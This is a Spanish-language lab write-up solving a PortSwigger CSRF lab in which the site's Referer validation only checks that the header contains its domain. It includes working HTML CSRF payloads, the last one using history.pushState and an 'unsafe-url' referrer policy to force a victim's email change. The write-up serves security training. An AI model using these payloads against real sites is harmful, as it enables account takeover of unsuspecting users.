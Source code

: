 ```yaml
---
title: CSRF with broken Referer validation
description: Laboratorio de Portswigger sobre CSRF
date: 2025-03-17 10:11:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CSRF
tags:
  - Portswigger Labs
  - CSRF
  - CSRF with broken Referer validation
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` tiene una funcionalidad de `cambio de correo electrónico` que es `vulnerable` a `CSRF`. Intenta `detectar y bloquear` solicitudes `entre dominios`, pero su `mecanismo de detección` puede ser `evadido`. Para `resolver` el `laboratorio`, debemos usar nuestro `servidor de explotación` para alojar una `página HTML` que realice un `ataque CSRF` y `cambie` el `correo electrónico` del usuario que la visite. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Guía de CSRF

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de CSRF` [https://justice-reaper.github.io/posts/CSRF-Guide/](https://justice-reaper.github.io/posts/CSRF-Guide/)

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CSRF-Lab-12/image_1.png)

Al pulsar sobre `My account` y nos logueamos con la credenciales `wiener:peter`

![](/assets/img/CSRF-Lab-12/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/CSRF-Lab-12/image_3.png)

Aparte de las defensas que emplean los `CSRF tokens`, algunas aplicaciones hacen uso del `HTTP Referer header` para intentar defenderse de los ataques `CSRF`, normalmente `verificando` que la `solicitud` se `originó` desde el `dominio` de la `aplicación`. Este enfoque generalmente es `menos efectivo` y suele ser susceptible de ser `eludido`

El `HTTP Referer header` es una `cabecera de solicitud opcional` que `contiene` la `URL` de la `página web` desde la que proviene una `solicitud`. Normalmente, `los navegadores la agregan automáticamente cuando un usuario desencadena una solicitud HTTP`, ya sea al hacer `click` en un `enlace` o al `enviar` un `formulario`. Existen varios métodos que permiten que `la página desde la que proviene la solicitud retenga o modifique el valor del Referer header`, lo cual, se hace a menudo por razones de `privacidad`

Si nos `abrimos` las `herramientas de desarrollador` de `Chrome` vemos que el atributo `SameSite` tiene el valor `None`

![](/assets/img/CSRF-Lab-12/image_4.png)

`Inspeccionamos` la forma en la que se `crea` el `formulario` de `cambio` de `email` para `usarlo` como `plantilla` a la hora de `construir` nuestro `payload`

![](/assets/img/CSRF-Lab-12/image_5.png)

`Creamos` el `payload` y lo `copiamos` en el `Exploit server`

```
<html>
  <body>
    <form action="https://0a38008204f6d4ef9c0ef998009e00c3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
         document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_6.png)

Al hacer `click` en `View exploit` el ataque no funciona y nos `arroja` este `mensaje`

![](/assets/img/CSRF-Lab-12/image_7.png)

Si nos dirigimos a la `extensión` de `Burpsuite Logger++` y revisamos la `petición` que acabamos de realizar, vemos que la cabecera `Referer` hace referencia a nuestro `servidor de exploits`

![](/assets/img/CSRF-Lab-12/image_8.png)

Si nos fijamos en la `petición` que hemos hecho al `principio` de `cambio` de `email`, vemos que esa `sí que ha sido exitosa` y que la `única diferencia` con la actual es el `valor` de la cabecera `Referer`

![](/assets/img/CSRF-Lab-12/image_9.png)

Algunas `aplicaciones` validan el `header Referer` de una forma `ingenua`, lo que permite que sea `evadido`. Por ejemplo, si la `aplicación` verifica que el `dominio` en el `Referer` comienza con un `valor esperado`, un `atacante` puede `colocar` ese valor como un `subdominio` dentro de su propio `dominio`

```
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Del mismo modo, si la `aplicación` solo `valida` que el `Referer` contiene su `nombre de dominio`, un `atacante` puede `colocar` el `valor requerido` en otra parte de la `URL`

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

Aunque podamos `identificar` este `comportamiento` usando `Burpsuite`, a menudo descubriremos que este `enfoque` deja de `funcionar` al probar nuestro `PoC` en un `navegador`. Esto se debe a que para `reducir` el `riesgo` de que se `filtren datos sensibles` de esta manera, muchos `navegadores` ahora `eliminan` la `cadena de consulta (?vulnerable-website.com)` de la cabecera `Referer` por defecto

Podemos `anular` este `comportamiento` añadiendo la cabecera `Referrer-Policy: unsafe-url` a nuestro `exploit`. Esto garantiza que se envíe la `URL completa`, incluida la `cadena de consulta (?vulnerable-website.com)`

En este caso, la `primera forma` no es viable porque el `servidor de explotación` que nos proporcionan `no lo permite`. Sin embargo, la `segunda forma` sí funciona, ya que la `web` solo valida si el `Referer` contiene el `nombre del dominio`, sin importar si hay `otras cadenas` en la `URL`

![](/assets/img/CSRF-Lab-12/image_10.png)

De acuerdo con la `documentación` de `Mozilla` [https://developer.mozilla.org/en-US/docs/Web/API/History/pushState](https://developer.mozilla.org/en-US/docs/Web/API/History/pushState) con `history.pushState(state, unused, url)`, podemos `cambiar` la `URL` en el `historial` del `navegador`

```
<html>
  <body>
    <form action="https://0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        history.pushState('', '', '/?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net')
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_11.png)

Al hacer `click` en `View exploit` nuevamente el ataque no funciona y nos `arroja` este `mensaje` otra vez

![](/assets/img/CSRF-Lab-12/image_12.png)

Si `inspeccionamos` la `petición` vemos que no se ha añadido `/?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net` a la `URL`

![](/assets/img/CSRF-Lab-12/image_13.png)

Como mencionamos anteriormente, podemos `anular` este `comportamiento` usando la cabecera `Referrer-Policy: unsafe-url`. Para indagar más profundamente podemos `consultar` la `documentación` de `Mozilla` [https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Referrer-Policy](https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Referrer-Policy)

```
<html>
  <body>
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
    <form action="https://0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing@gmail.com">
    </form>
    <script>
        history.pushState('', '', '?0aae004404c5a6a2979c8bc400ef00f5.web-security-academy.net')
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![](/assets/img/CSRF-Lab-12/image_14.png)

Si pulsamos sobre `View exploit` veremos que `no nos arroja ningún error` y nos `cambia` el `email` correctamente. Para `completar` el `laboratorio` debemos `cambiar` nuestro `email` o cambiar el `email` usado en el `payload` debido a que `no puede haber dos usuarios con el mismo email`

![](/assets/img/CSRF-Lab-12/image_15.png)
